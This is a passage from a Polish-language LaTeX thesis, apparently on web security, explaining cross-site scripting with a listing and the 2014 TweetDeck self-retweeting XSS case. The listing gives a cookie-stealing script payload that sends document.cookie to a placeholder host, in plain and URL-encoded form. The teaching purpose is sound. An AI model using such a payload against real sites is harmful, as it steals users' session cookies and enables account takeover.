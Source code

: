 \documentclass[12pt,a4paper,polish,thesis]{dcsbook}
\begin{document}
Przekazanie kodu \ref {xss2} w~postaci parametru \textit{name} spowoduje wykonanie tego kodu po stronie przeglądarki. Efektem wywołania będzie przekierowanie użytkownika na adres internetowy z~przekazaną zawartością ciasteczka w~adresie URL.

\begin{lstlisting}[language=php,frame=single,caption=przykład wykorzystania podatności XSS,label=xss2,numbers=left]
<script>document.location="http://example.com/?c="+document.cookie;</script>

%3Cscript%3Edocument.location%3D%22http%3A%2F%2Fexample.com%2F%3Fc%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E (wersja zakodowana)
\end{lstlisting}

 W~2014 roku odkryto podatność aplikacji TweetDeck \cite{tweetdeck} (działającej jako rozszerzenie do przeglądarki Google Chrome), która oferowała interakcję z~popularnym serwisem społecznościowym Twitter. Podatność polegała na renderowaniu treści tweeta z~wykorzystaniem silnika interpretującego JavaScript i~bez zamiany danych pobranych z~API na encje.

\begin{figure}[h]
\centering
\includegraphics[scale=0.75]{tweetdeck}
\label{tweetdeckpng}
\caption{tweet wykorzystujący podatność XSS w~TweetDeck}
\end{figure}

Użytkownik \textit{@derGeruhn} zamieścił na swoim profilu wpis, który wykorzystywał odnalezioną podatność. Wyświetlony w~aplikacji TweetDeck zawierał tylko emotikonę serca, a~poprzedzający ją kod został wykonany z~uprawnieniami ofiary. Zamieszczony kod powodował rozpowszechnienie wpisu przez skopiowanie go na profil ofiary (\textit{ang. retweet}). Próba usunięcia wpisu kończyła się pojawieniem się komunikatu ,,XSS in Tweetdeck''.
\end{document}
